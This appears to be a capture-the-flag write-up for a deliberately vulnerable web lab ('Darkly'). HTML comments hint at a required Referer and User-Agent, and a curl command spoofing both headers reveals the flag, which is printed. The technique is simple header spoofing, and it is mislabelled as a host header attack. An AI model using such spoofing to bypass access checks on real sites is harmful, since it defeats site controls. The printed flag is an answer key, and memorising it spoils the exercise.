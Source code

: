 # Spoof(curl)

If we click on `Born2Sec` at the bottom of the page we get to <http://[VM_IP]/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f>

In the source code on this page we can find the following comments (some are more relevant than others):
```
<!--
Voila un peu de lecture :

Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.
-->

<!-- 
Fun right ?
source: loem.
Good bye  !!!!
-->

<!--
You must come from : "https://www.nsa.gov/".
-->

<!--
Where does it come from?
Contrary to popular belief, Lorem Ipsum is not simply random text. It has roots in a piece of classical Latin literature from 45 BC, making it over 2000 years old. Richard McClintock, a Latin professor at Hampden-Sydney College in Virginia, looked up one of the more obscure Latin words, consectetur, from a Lorem Ipsum passage, and going through the cites of the word in classical literature, discovered the undoubtable source. Lorem Ipsum comes from sections 1.10.32 and 1.10.33 of "de Finibus Bonorum et Malorum" (The Extremes of Good and Evil) by Cicero, written in 45 BC. This book is a treatise on the theory of ethics, very popular during the Renaissance. The first line of Lorem Ipsum, "Lorem ipsum dolor sit amet..", comes from a line in section 1.10.32.

The standard chunk of Lorem Ipsum used since the 1500s is reproduced below for those interested. Sections 1.10.32 and 1.10.33 from "de Finibus Bonorum et Malorum" by Cicero are also reproduced in their exact original form, accompanied by English versions from the 1914 translation by H. Rackham.
-->

<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

So we have to change our header to make it look like we are coming from <https://www.nsa.gov/> and using custom browser `ft_bornToSec`.

With `curl` we can do exactly that using flags -A (Specify the User-Agent) and -e (Sends the "Referer Page") information to the HTTP server:
```
daniseed@DESKTOP:~/darkly$ curl -e https://www.nsa.gov/ -A "ft_bornToSec" "http://192.168.31.135/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"  | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  6041    0  6041    0     0   737k      0 --:--:-- --:--:-- --:--:--  737k
<center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

We have our flag

## Explanation

Attack type: [Host Header Attack](https://portswigger.net/web-security/host-header)

## How to fix it

This vulnerability is fixed on new webservers but it is better ro be careful with header attributes on backend. You should never execute something with their contents
